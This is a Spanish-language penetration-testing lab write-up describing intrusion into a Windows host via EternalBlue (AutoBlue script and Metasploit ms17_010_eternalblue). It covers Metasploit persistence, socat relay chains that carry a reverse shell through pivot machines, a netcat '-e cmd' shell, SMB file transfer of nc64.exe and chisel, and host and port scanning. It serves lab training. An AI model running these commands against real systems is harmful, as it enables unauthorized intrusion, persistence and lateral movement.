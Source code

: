 #### <font color="#fac08f">Intrusión</font>
- Version de smb vulnerable a enternalBlue. Con el recurso [AutoBlue](https://github.com/d4t4s3c/Win7Blue) ejecutamos el .sh y nos ponemos en escucha por el puerto 443 _`rlwrap nc -nlvp 4546`
- Ejecutamos `proxychains4 ./Win7blue.sh` y seguimos los pasos (Si no conseguimos la shell, ejecutarlo varias veces).
- Hay que tener en cuenta y crear con "socat" lo necesario para recibir la RevShell em muestro Kali. 
- He vuelto a montar socats similares a la RevShell de Fawkes.
```python
$> ./socat TCP-LISTEN:2323,fork TCP:10.10.0.129:2324 # NAGINI -> Escucha el puerto indicado en el ShellCode del BoF
$> ./socat TCP-LISTEN:2324,fork TCP:192.168.50.221:4545 # ARAGOG redirige el socat de la Nagiri al "nc" en nuestra máquina
$> nc -nlvp 4545 # KALI -> Recibe la revShell
```
##### Metasploit
Lo he probado también con metasploit  con "exploit/windows/smb/ms17_010_eternalblue" puedes ganar acceso y también crear persistencia por si perdemos la shell.
Persistencia -> "exploit/windows/local/persistence_service".
```python
msf6 > use exploit/windows/smb/ms17_010_eternalblue
	msf6 > set RHOSTS 192.168.100.130
	msf6 > set PROXIES socks5:127.0.0.1:8888 # Proxy 
	msf6 > set REVERSEALLOWPROXY true # Necesario para la revShell
	msf6 > exploit # PWNED!
```
##### <font color="#0070c0">ROOT</font>

- Ahora tenemos que subir nc64.exe y chisel.exe, para ello vamos a crear un recurso con smbserver.
```python 
$> sudo python3 smbserver.py smbfolder $(pwd) -smb2support # KALI
$> ./socat TCP-LISTEN:445,fork TCP:10.10.0.128:445 # NAGINI
$> ./socat TCP-LISTEN:445,fork TCP:192.168.50.202:445 # ARAGOG
$> dir net view \\192.168.100.131\smbfolder # Dumbledore lista recursos.
$> copy \\192.168.100.128\smbfolder\nc64.exe C:\\Windows\nc64.exe # Copiamos nc en Dumbledore
```
- Si necesitamos lanzarnos otra shell
```python
$> start "" /B nc64.exe 192.168.100.131 1002 -e cmd # Dumbledore
# Crear socat en ARAGOG y NAGINI
$> rlwrap nc -nlvp 4546 # Kali
```
- Escaneo de hosts abiertos
```python
$> for /L %a in (1,1,254) do @start /b ping 172.18.0.%a -w 100 -n 2 >nul # Escanea el rango de hosts
$> arp -a # Podemos ver las direcciones de hosts que han sido resultas con el protocolo arp (anterior comando).
```
#### <font color="#fac08f"><u>Pivoting</u> Dumbledore</font> 
- Montamos el cliente de chisel.exe
```python
$> ./socat TCP-LISTEN:2000,fork TCP:192.168.50.221:1234 # ARAGOG
$> ./socat TCP-LISTEN:2001,fork TCP:10.10.0.129:2000 # NAGINI
$> .\chisel.exe client 192.168.100.131:2001 R:9999:socks # Dumbledore
```
### <font color="#de7802">Matrix</font>
#### <font color="#fac08f">Enumeración</font>
- Enumeramos los puertos abiertos de Matrix 172.18.0.133.
```python 
$> seq 1 65535 | xargs -P 500 -I {} proxychains4 nmap -sT -Pn -p{} --open -T5 -v -n 172.18.0.{} 2>&1 | grep "tcp open" # Escaneo de puertos
```